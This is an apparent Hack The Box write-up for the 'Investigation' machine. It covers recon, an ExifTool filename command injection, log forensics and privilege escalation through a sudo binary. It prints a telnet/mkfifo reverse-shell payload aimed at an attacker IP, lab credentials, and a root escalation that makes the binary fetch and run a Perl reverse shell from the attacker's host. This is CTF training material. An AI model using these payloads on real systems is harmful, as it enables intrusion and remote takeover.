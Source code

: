 +++ 
title = "Investigation HTB Write up"
description = "Write up for the HTB machine 'Investigation'"
author = "greatmoves"
tags = ["exiftool", "perl", "hackthebox", "binary ninja", "reverse engineering", "sudo -l", "digital forensics"]
date = 2023-04-23
+++
- [1. Initial Recon](#1-initial-recon)
  - [1.1. nmap](#11-nmap)
  - [1.2. nikto](#12-nikto)
- [2. website recon](#2-website-recon)
  - [2.1. ExifTool](#21-exiftool)
- [3. user.txt](#3-usertxt)
  - [3.1. file system recon](#31-file-system-recon)
  - [3.2. .msg file](#32-msg-file)
- [4. root.txt](#4-roottxt)
  - [4.1. investigating the binary](#41-investigating-the-binary)
    - [4.1.1. binary ninja](#411-binary-ninja)
    - [4.1.2. final payload](#412-final-payload)

## 1. Initial Recon
----
### 1.1. nmap
cmd `nmap -sC -sV 10.10.11.197`
- From the nmap scan we get the url `http://eforenzics.htb/` which we can add to /etc/hosts
- We have port 22 ssh and port 80 http
### 1.2. nikto
cmd `nikto -host 10.10.11.197`
- found nothing interesting
## 2. website recon
----
- /service.html has a file upload service
    - uploading any image file reveals the ExifTool Version Number 12.37
### 2.1. ExifTool
A quick google search for ExifTool reveals a command injection vulnerability for that version number
- https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
  - ```Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character | and exists on the filesystem, then the file will be treated as a pipe and executed as an OS command.```

Our payload will be in the name of the file that we upload to the web application

After trying some payloads from revshells we can eventually use:
- payload: `TF=$(mktemp -u);mkfifo $TF && telnet 10.10.x.x 4444 0<$TF | sh 1>$TF |`
## 3. user.txt
Once we have our reverse shell let's obtain a fully interactive shell with:
`python3 -c 'import pty;pty.spawn("/bin/bash");'`

### 3.1. file system recon
After some recon of the file system we find the directory `/usr/local/investigation`
- from here we can also find our username: `smorton`

Let's download the files

- On the victim machine spin up a http server using `python3 -m http.server`
- On your attacking machine run `curl http://10.10.11.197:8000/Windows%20Even%20Logs%20for%20Analysis.msg > out.msg`

### 3.2. .msg file
Now we need to find what to do with a `.msg` file. Thankfully we can use `https://www.encryptomatic.com/viewer/` to analyse it for us, which will lead us to downloading a zip file, extract the file from the zip.

Now we've got a `.evtx` file and we've gotta figure out what to do with that.
- here's a python module that can help with that `https://pypi.org/project/python-evtx/`
  - run `python3 evtx_dump.py security.evtx > out.file`

From the evtx file we can find a password: `Def@ultf0r3nz!csPa$$`

Now we can ssh into the machine with the credentials
```
smorton:Def@ultf0r3nz!csPa$$
```

navigate to `/home/smorton` for `user.txt`
## 4. root.txt
when we run `sudo -l` we can see that there's a binary the user is allowed to run
```
User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

So let's investigate this binary. Same as above let's spin up a http server using python3 on the victim machine and download the binary
- run `python3 -m http.server` on the victim machine
- run `curl http://10.10.11.197:8000/binary > binary.out` on your attacking machine

### 4.1. investigating the binary
let's start by running `strings binary.out`
```
...
Exiting... 
lDnxUysaQn
Running... 
perl ./%s
rm -f ./lDnxUysaQn
...
```

from this we can gather that
- perl is being run on a string
- `lDnxUysaQn` has some significance

#### 4.1.1. binary ninja
binary ninja allows us to decompile the binary
{{< highlight c "linenos=inline" >}}
    0000144a      if (argc != 3)
    00001453          puts(str: "Exiting... ")
    0000145d          exit(status: 0)
    0000145d          noreturn
    00001469      if (getuid() != 0)
    00001472          puts(str: "Exiting... ")
    0000147c          exit(status: 0)
    0000147c          noreturn
    0000149d      if (strcmp(argv[2], "lDnxUysaQn") != 0)
    00001687          puts(str: "Exiting... ")
    00001691          exit(status: 0)
    00001691          noreturn
    000014aa      puts(str: "Running... ")
    000014c4      FILE* rax_8 = fopen(filename: argv[2], mode: &data_2027)
    000014cd      int64_t rax_9 = curl_easy_init()
    000014d6      int32_t var_40 = 0x2712
    000014f9      curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712)
    000014fe      int32_t var_3c = 0x2711
    0000151a      curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711)
    0000151f      int32_t var_38 = 0x2d
    0000153c      curl_easy_setopt(rax_9, 0x2d, 1, 0x2d)
    00001554      if (curl_easy_perform(rax_9) != 0)
    00001671          puts(str: "Exiting... ")
    0000167b          exit(status: 0)
    0000167b          noreturn
    00001583      int64_t rax_25 = sx.q(snprintf(s: nullptr, maxlen: 0, format: &data_202a, argv[2]))
    00001594      char* rax_28 = malloc(bytes: rax_25 + 1)
    000015c6      snprintf(s: rax_28, maxlen: rax_25 + 1, format: &data_202a, argv[2])
    000015ed      int64_t rax_37 = sx.q(snprintf(s: nullptr, maxlen: 0, format: "perl ./%s", rax_28))
    000015fe      char* rax_40 = malloc(bytes: rax_37 + 1)
    00001629      snprintf(s: rax_40, maxlen: rax_37 + 1, format: "perl ./%s", rax_28)
    00001635      fclose(fp: rax_8)
    00001641      curl_easy_cleanup(rax_9)
    0000164b      setuid(uid: 0)
    00001657      system(line: rax_40)
    00001663      system(line: "rm -f ./lDnxUysaQn")
{{< / highlight >}}

from this we can gather
- the program requires 2 arguments (line 1)
- the second argument must be `lDnxUysaQn` (line 9)
- curl is being used on argument 1 (line 17, line 22)
  - [man page for curl_easy_perform](https://linux.die.net/man/3/curl_easy_perform)
- perl is being run with system (line 31, line 35)

so let's construct a command to run on the victim machine so that it meets the above requirements

#### 4.1.2. final payload
`sudo /usr/bin/binary 10.10.x.x:80/payload.pl lDnxUysaQn`
- we need to be running the binary as sudo, so we need `sudo /usr/bin/binary` at the start
- the first argument is being curled, so let's use `python3 -m http.server 80` to host our payload
  - `10.10.x.x:80/payload.pl` is so the binary curls from our machine
- perl is being run, so let's make our payload a perl script for a reverse shell
  - from [revshells](https://www.revshells.com/) get a perl reverse shell
- finally, `lDnxUysaQn` is required at the end

Spin up the http server on your attacking machine along with a netcat listener

finally, our netcat listener will catch a reverse shell as the root user.